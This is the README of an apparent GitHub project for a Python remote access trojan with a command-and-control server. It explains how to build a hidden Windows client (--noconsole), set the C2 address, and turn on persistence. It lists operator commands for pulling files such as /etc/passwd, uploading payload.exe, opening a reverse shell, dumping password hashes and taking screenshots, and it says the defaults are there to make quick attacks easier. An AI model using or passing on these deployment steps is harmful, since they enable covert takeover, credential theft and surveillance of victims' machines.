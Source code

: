 ## Python RAT

### Introduction

This project is a minimal implementation of a Client-Server RAT.

### Install

In order to install the dependencies, you must run the following command: (with or without venv, as you wish)

```bash
pip install -r requirements.txt
```

The server encrypts the communication with the agents. You must generate a private key and a certificate for the server. You can do it by running the following command:

1. Generate the private key:
```bash
openssl genpkey -algorithm RSA -out server.key -aes256
```
2. Generate the certificate from the private key:
```bash
openssl req -new -key server.key -out server.crt
```

Please, name the files as `server.key` and `server.crt` and place them in the `C2` directory.

### Build

#### Linux

As agreed, the linux client will be executed by the python interpreter. So, no build is required. However, you must install the dependencies before.

#### Windows

For Windows client, you must additionally compile the client by running the following command: (`pyinstaller` must be installed in the previous step)

```bash
pyinstaller --noconsole --onefile main.py
```

or

```bash
python3 -m PyInstaller --noconsole --onefile main.py
```

`--noconsole` means that no window will pop up when the executable is executed.

You must find the executable in the `dist` directory.

If you got an error, check [this](https://pyinstaller.org/en/stable/installation.html#troubleshooting-missing-pyinstaller-command).

### Usage
#### Client

The client don't need any argument to be executed, in order to make quick attacks easier. However, if you want to specify the server IP and port, you can modify those values in the `main.py`, at the end of the file: (`Client` folder)

```python
C2_IP = 'YOUR_IP'
C2_PORT = YOUR_PORT
```

You can run the client by executing the following command:

```bash
python3 main.py
```

#### Server

In order to start the server, you must specify the listening port as the first argument: (`C2` folder)

```bash
python3 main.py YOUR_PORT
```

### Available commands on the server
```
<command> [args]
====================
agents      : List all connected agents
agent       : Select an agent by ID | ID: Integer | Ex: agent 3
bg          : Deselect the current agent
kill        : Kill an agent by id | ID: Integer | kill 4
exec        : Execute a system command in the local machine
help        : Show this help message
exit        : Exit the server
==================== ONCE AGENT SELECTED:
download    : Download the specified files | FILE: String | Ex: download /etc/passwd /etc/hosts
upload      : Upload a file to selected target | LOCAL_FILE: String   REMOTE_DEST: String | upload payload.exe /tmp/payload.exe
search      : Search a file on the target's filesystem 
shell       : Open a reverse shell from the selected agent (type exit to quit the shell) (not interactive)
hashdump    : Dump the hashes from the target (may crash on Windows)
ipconfig    : Retrieve the IP Configuration from the current target 
screenshot  : Take a screenshot from the selected agent, you can optionally specify a name for the screenshot | Optional: FILE: String | screenshot [my_screenshot]
====================
```

### Misc

#### Persistancy

In order to enable persistancy, you must uncomment the following line twice in the `main.py`, at the end of the file:

```python
#client.persistence()
```

### Files structure

```
- C2/
    - main.py: Start the server, should be run with python
    - server.py: Server class, handles the communication with the agents
    - server.key: Private key for the server
    - server.crt: Certificate for the server
    - symbols.py: Custom codes for the communication
    - agent.py: Agent class
- Client/
    - client.py: Client mother class, points to the correct client depending on the OS
    - linuxClient.py: Linux client class
    - windowsClient.py: Windows client class
    - symbols.py: Custom codes for the communication, must be the same as the server. Redundant because of the portability.
```